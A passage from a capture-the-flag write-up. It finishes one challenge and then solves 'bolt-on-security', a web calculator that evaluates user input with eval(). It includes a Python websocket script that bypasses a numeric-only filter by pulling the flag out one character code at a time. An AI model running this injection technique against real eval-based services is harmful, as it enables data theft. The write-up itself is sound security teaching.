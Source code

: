 Running the code, we get an answer of `975767281` and a flag of `cararraCTF{975767281}`.

## bolt-on-security

Web Exploitation (125 points)

### Problem

Bob coded up a calculator for you as quickly as possible, but he also didn't want you to leak any of his data. So, he made sure to run some checks on your expression to make sure you didn't try anything sneaky. Connect to the challenge using the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/bolt-on-security -E` and see if you can bypass Bob's questionable security measures.

Relevant links: [bolt-on-security.js](http://cararra-ctf-files.herokuapp.com/r4/bolt-on-security.js)

### Writeup

Bob used eval() to speed up his implementation of his calculator, and that should be an immediate red flag. Although we could theoretically try to find out his favorite expression, we might as well just steal the flag without learning more about Bob.

Although we sadly cannot retrieve the flag directly because of Bob's "security measures," we can find hundreds of ways to convert the flag into number form so that the code doesn't flag it as a non-numerical expression. The easiest way is to convert each character to a char code and have Bob evaluate that for us.

Here is the code:

```python
import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/bolt-on-security"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        flag = "a"
        while flag[-1] != "}":
            print(f"< {await websocket.recv()}")
            await websocket.send(f"flag.charCodeAt({len(flag)-1})")
            print(f"> flag.charCodeAt({len(flag)})")
            recv = await websocket.recv()
            print(f"< {recv}")
            flag += chr(int(recv))
        print(flag[1:])

asyncio.get_event_loop().run_until_complete(solve())
```

Running it, we get a flag of `cararraCTF{h@rd_2_pr0teCT_inh3r3ntly_InSECURE_functions}`.

## plant-problems-2
